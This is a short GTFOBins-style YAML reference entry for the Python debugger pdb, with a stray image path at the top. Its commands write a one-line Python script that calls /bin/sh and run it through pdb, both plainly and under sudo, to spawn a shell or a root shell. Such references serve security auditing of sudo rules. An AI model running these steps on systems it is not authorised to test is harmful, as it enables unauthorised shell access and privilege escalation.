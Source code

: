 description: This allows to execute [`python`](/gtfobins/python/) code, other functions may apply.
functions:
  shell:
    - code: |
        TF=$(mktemp)
        echo 'import os; os.system("/bin/sh")' > $TF
        pdb $TF
        cont
  sudo:
    - code: |
        TF=$(mktemp)
        echo 'import os; os.system("/bin/sh")' > $TF
        sudo pdb $TF
        cont
---
